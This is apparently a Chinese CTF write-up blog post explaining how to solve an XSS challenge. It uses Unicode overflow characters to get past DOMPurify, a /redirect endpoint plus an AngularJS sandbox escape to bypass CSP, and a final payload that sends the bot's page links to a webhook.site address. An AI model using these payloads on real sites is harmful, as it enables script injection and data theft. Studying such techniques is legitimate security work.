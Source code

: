 # 从一道XSS题学习CSP绕过

  
  
&lt;!--more--&gt;  
## 0x00 解题记录  
`/create`可以创建笔记存入到数据库，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102148138.png)
`/note`可以展示笔记  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102149796.png)
但在`/create`处存在`DOMPurify`来过滤`xss`，由于是最新版无法绕过，  
需要注意到在`/note`笔记展示的地方，是利用了`ascii`来处理了字符串，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102151665.png)
这里会涉及到一个`unicode`溢出的安全问题  
举一个🌰  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102158214.png)
利用这个原理，选两个`unicode`字符来逃逸`&lt;&gt;`  
`氼`、`夾`  
来试一下，正常的解析了`&lt;&gt;`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102203883.png)
构造一个payload  
```javascript  
氼script src=&#34;https://www.example.com&#34;夾alert(1);//氼/script 夾  
```  
正常触发了CSP  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102208902.png)
现在就需要绕过CSP了，利用`/redirect`接口绕过CSP即可  
```javascript  
  res.setHeader(  
    &#34;Content-Security-Policy&#34;,  
    `script-src &#39;self&#39; &#39;nonce-${nonce}&#39; &#39;unsafe-eval&#39; https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.1/jquery.min.js; base-uri &#39;none&#39;; object-src &#39;none&#39;;`  
  );  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102220072.png)
还需要利用到`angular`组件，原因如下  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102348192.png)
在重定向只会忽略路径部分，而不会忽略URL，而CSP中又恰巧信任了`https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.1/jquery.min.js`  

```javascript  
氼script src=&#34;http://localhost:3000/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js&#34; 夾  //氼/script 夾  
&lt;div data-ng-app&gt; {{&#39;a&#39;.constructor.prototype.charAt=[].join;$eval(&#39;x=1} } };alert(1);//&#39;);}} &lt;/div&gt;  
```  

（这里在本地搭建了一个作为测试）  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502102359533.png)
根据`bot.ts`来盗取`flag`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502110001119.png)
payload  

```javascript  
氼script src=&#34;http://localhost:3000/redirect?url=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js&#34; 夾  //氼/script 夾  
&lt;div data-ng-app&gt;{{&#39;a&#39;.constructor.prototype.charAt=[].join;$eval(&#39;x=1} } };  
    fetch(`http://localhost:3000/`).then(res=&gt;res.text()).then(data=&gt;{ const parser = new DOMParser();  
    const doc = parser.parseFromString(data, &#34;text/html&#34;);  
    const links = Array.from(doc.querySelectorAll(&#34;a&#34;)).map(a =&gt; a.href);  
    const encodedLinks = btoa(unescape(encodeURIComponent(JSON.stringify(links))));  
    return fetch(&#34;https://webhook.site/5b154691-3fdb-46b8-980b-735e19b081f2?ans=&#34; &#43; encodedLinks, { method: &#34;GET&#34;, mode: &#34;no-cors&#34; })});//&#39;);}}&lt;/div&gt;  
```  

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502110004738.png)
## Reference  
[https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows](https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows &#34;https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows&#34;)https://www.w3.org/TR/CSP3/#source-list-paths-and-redirects  
https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques  
https://csp-evaluator.withgoogle.com/  
https://github.com/Mehdi0x90/Web_Hacking/blob/main/CSP%20Bypass.md  
  
## 0x00000  
弟弟新建了一个交流群，欢迎有兴趣的师傅一起来讨论有趣的Web题
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202502101949106.jpg)

---

> Author: N1Rvana  
> URL: http://localhost:1313/%E4%BB%8E%E4%B8%80%E9%81%93xss%E9%A2%98%E5%AD%A6%E4%B9%A0csp%E7%BB%95%E8%BF%87/  

